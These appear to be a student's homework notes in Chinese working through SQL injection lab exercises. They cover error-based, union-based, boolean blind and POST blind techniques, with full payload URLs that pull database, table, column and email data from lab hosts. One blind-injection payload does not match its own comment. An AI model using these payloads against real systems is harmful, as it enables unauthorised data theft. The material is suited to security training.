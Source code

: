 # 作业

### 练习1

- 前面两次练习写的比较详细了,所以这里只展示过程

- 目标url:http://192.168.100.40:64879/string.php?id=1

![image-20240822171501356](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822171501356.png)

- 获取当前网页的``数据库名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select database()),0x3a)) --+
```

![image-20240822172548437](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822172548437.png)

- 获取当前网页的数据库的``表名``

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
```

![image-20240822173059756](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822173059756.png)

- 获取当前网页的``emails表``中的所有字段

```sql
http://192.168.100.40:64879/string.php?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema=database()),0x3a)) --+
```

![image-20240822180248392](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822180248392.png)

- 获取``emails表中的所有数据``

```
http://192.168.100.40:64879/string.php?id=-1'union select 1,(select group_concat(id,0x3a,email_id) from security.emails),3 --+
```

![image-20240822180428083](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822180428083.png)

------

### 作业2

- 目标url:http://1.14.28.17:32271/number.php?id=1

- 查看数据库的列数``order by`` 

```sql
http://1.14.28.17:32271/number.php?id=1 order by 3 --+
http://1.14.28.17:32271/number.php?id=1 order by 4 --+
```

发现``3``是正常的,而``4``报错

- 开始尝试

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,3--+
```

![image-20240822184809338](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822184809338.png)

- 查看当前``数据库名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,database(),3--+
```

![image-20240822184940525](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822184940525.png)

- 查看``表名``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

![image-20240822191006108](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191006108.png)

- 查看``emails表``中的字段名

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' and table_schema='security'--+
```

![image-20240822191229453](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191229453.png)

- 查看``所有数据``

```sql
http://1.14.28.17:32271/number.php?id=-1 union select 1,2,group_concat(id,0x3a,email_id) from security.emails
```

![image-20240822191434561](C:\Users\24937\Desktop\学习\笔记\assets\image-20240822191434561.png)

------

### 作业3

- 目标url:http://1.14.28.17:45257/get.php?id=1
- 这关判断正确了就会显示``you are in....``截图我就不展示了
- 判断当前``数据库表的个数`` -->4

```sql
http://1.14.28.17:45257/get.php?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个``表名长度``-->6

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=6 --+
```

- 获取第二个``表名长度``-->8

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 1,1)=8 --+
```

- 获取第三个``表名长度``-->7

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 2,1)=7 --+
```

- 获取第四个``表名长度``-->5

```sql
http://1.14.28.17:45257/get.php?id=1'and (select length(table_name) from information_schema.tables where table_schema=database() limit 3,1)=5 --+
```

- 获取第四个``表名``--> 117 115 101 114 115 即:``users``

![image-20240820205508239](C:\Users\24937\Desktop\学习\笔记\assets\image-20240820205508239-1724326766500-1.png)

- 获取``字段数``-->3

```sql
//代表有users表中有三个字段
http://192.168.77.131/master/Less-8/?id=-1'or (select count(*) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1))=3 --+
```

- 获取``第一个字段长度``-->2

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 0,1)=2 --+
```

- 获取``第二个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 1,1)=8 --+
```

- 获取``第三个字段长度``-->8

```sql
http://192.168.77.131/master/Less-8/?id=-1'or (select length(column_name) from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,1) limit 2,1)=8 --+
```

- 开始爆破每一个``字段名``-->id

```sql
//爆破第一个字段的第一个字符-->105
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),1,1))=105)) --+
```

```sql
//爆破第二个字段的第一个字符-->100
http://192.168.77.131/master/Less-8/?id=1' AND (select(ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name=(select table_name from information_schema.tables where table_schema=database() LIMIT 3,1) limit 0,1),2,1))=105)) --+
```

- 获取数据也是一样的,相对比较繁琐就不展示了

------

### 作业4

- 目标url:http://1.14.28.17:26053/post.php

- 刚开始拿到网页确实觉得有点难,没有任何回显,无从下手,无奈选择使用yakit进行抓包

![image-20240822231802250](assets/image-20240822231802250.png)

![image-20240822231941587](assets/image-20240822231941587.png)

- 注入成功后会返回一个``./images/flag.jpg``图片,失败则是``./images/slap``,通过这一步就能判断出``数据库名字长度``-->8
- 有了这个思路那么就是说,只要我语句判断是对的那么都会返回``./images/flag.jpg``,由此剩余步骤跟前面布尔盲注大同小异
- 这里由于时间关系,我只展示如何获取``数据库名``

![image-20240822233921451](assets/image-20240822233921451.png)

- 构造pyload,爆破获取得到-->115 101 99 117 114 105 116 121 即为:``security``
- 到此本次注入就结束了,剩下的不再演示,因为都很类似,只是相对繁琐!


